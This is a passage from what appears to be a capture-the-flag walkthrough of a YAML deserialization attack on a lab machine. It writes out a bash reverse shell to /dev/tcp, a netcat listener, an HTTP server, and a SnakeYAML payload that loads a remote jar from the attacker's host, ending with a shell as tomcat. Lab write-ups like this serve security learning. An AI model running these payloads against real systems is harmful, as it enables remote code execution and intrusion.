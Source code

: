 ##### shell.sh code
*Replace your ip here [/10.10.14.201/8888] and specify the port in which the netcat will listen to for my case is port 8888*
```code
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.201/8888 0>&1
```

##### Screenshot 15
![[Pasted image 20210705095639.png]]

### Getting the shell
Now we are ready for getting  the shell.
-First, we start a python3 HTTP server in the yaml-payload dir which it will be cointaning shell.sh and the yaml-payload.jar using ;

##### Code
```code
python3 -m http.server 
```

Then start a netcat listening at your specified port number that you specified in the shell.sh

##### Code
```code
netcat -lvnp 8888 
```
  
 Then navigate to your windows and paste this code to your parse yaml site
 
 ##### Code
 
 *Replace your ip here ["http://10.10.14.201:8000/yaml-payload.jar"]*
 ```code
 !!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.201:8000/yaml-payload.jar"]
  ]]
]
```

Finally we Get a shell as tomcat 

##### Screenshot 16
![[Pasted image 20210705102748.png]] 

##### Screenshot 17
![[Pasted image 20210705102845.png]]
 

### Finding the Details
The first thing i do is to grab the bash so i can now where it is been stored and use it to improve my shell
